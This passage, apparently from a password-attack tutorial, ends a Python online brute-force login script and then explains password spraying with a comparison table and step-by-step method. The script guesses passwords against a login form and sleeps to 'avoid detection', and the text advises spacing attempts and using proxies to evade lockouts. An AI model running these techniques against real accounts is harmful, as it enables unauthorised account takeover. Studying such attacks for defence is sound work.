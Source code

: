 ```python
            # 'csrf_token': csrf_token
        }
        
        # Attempt login
        response = session.post(url, data=login_data)
        
        # Check if login was successful
        # This condition varies depending on the target application
        if "Login successful" in response.text or response.status_code == 302:
            return password
            
        # Implement rate limiting to avoid detection
        time.sleep(1)
    
    return None

# Example usage
passwords = ['password123', 'qwerty', 'admin123', '123456']
result = online_password_attack('https://example.com/login', 'admin', passwords)
print(f"Password found: {result}")
```

Key points in this process:

1. Each password attempt generates a complete authentication request
2. The script looks for success indicators in the response
3. Rate limiting helps avoid detection and lockouts
4. In real scenarios, proxies might be used to distribute requests

## 5. Password Spraying

Password spraying is a specialized attack that attempts to access a large number of accounts using a small set of common passwords.

### 5.1 Password Spraying vs. Traditional Brute Force

| Aspect | Password Spraying | Traditional Brute Force |
|--------|-------------------|-------------------------|
| Target | Multiple accounts | Single account |
| Password attempts | Few common passwords | Many password variations |
| Detection risk | Lower per-account | Higher per-account |
| Lockout bypass | Designed to avoid lockouts | Often triggers lockouts |
| Success rate | Lower per account, but higher overall | Higher per target account |

### 5.2 Password Spraying Methodology

The typical approach for password spraying follows these steps:

1. Gather a list of valid usernames/email addresses
2. Select a small set of commonly used passwords
3. Try each password against all accounts before moving to the next password
4. Space out attempts to avoid triggering lockout policies
5. Look for successful authentications
